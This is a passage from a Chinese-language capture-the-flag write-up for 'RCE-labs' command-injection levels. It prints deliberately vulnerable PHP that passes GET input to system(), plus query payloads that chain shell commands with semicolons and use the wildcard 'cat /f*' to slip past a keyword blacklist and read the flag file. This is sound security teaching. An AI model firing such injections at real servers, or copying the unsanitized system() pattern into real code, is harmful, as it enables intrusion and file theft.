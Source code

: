 由于只能控制system函数里面的部分参数 所以要用分号或者逻辑运算符构建payload

```python
?ip=127.0.0.1;ls /
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737001066107-84f73b0e-4f84-4e8d-9066-8b9c6b4d8635.png)

发现flag文件 利用cat读取flag

```python
?ip=127.0.0.1;cat /flag
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737001128703-510ec67c-a1ca-4e56-870a-7239d1f23055.png)

得到flag

### [RCE-labs]Level 5 - 黑名单式过滤
```php
<?php 
  function hello_shell($cmd){
  if(preg_match("/flag/", $cmd)){
  die("WAF!");
  }
  system($cmd);
  }

  isset($_GET['cmd']) ? hello_shell($_GET['cmd']) : null;

highlight_file(__FILE__);


?>
```

通过代码审计发现存在命令执行函数 但是存在过滤参数中不能出现flag 先寻找flag所在位置 查看根目录下的文件

```php
?cmd=ls /
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737001480151-655f3029-7439-4bd7-8c5a-1808713a73df.png)

发现flag文件 接着利用cat读取flag由于存在过滤 所以使用通配符f*代替flag

```php
?cmd=cat /f*
```

得到flag

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737001559915-79d02db6-f0e8-4405-aefd-9be49b5bed7b.png)

### [RCE-labs]Level 6 - 通配符匹配绕过
```php
<?php
function hello_shell($cmd){
    if(preg_match("/[b-zA-Z_@#%^&*:{}\-\+<>\"|`;\[\]]/", $cmd)){
        die("WAF!");
    }
    system($cmd);
}

isset($_GET['cmd']) ? hello_shell($_GET['cmd']) : null;

highlight_file(__FILE__);


```
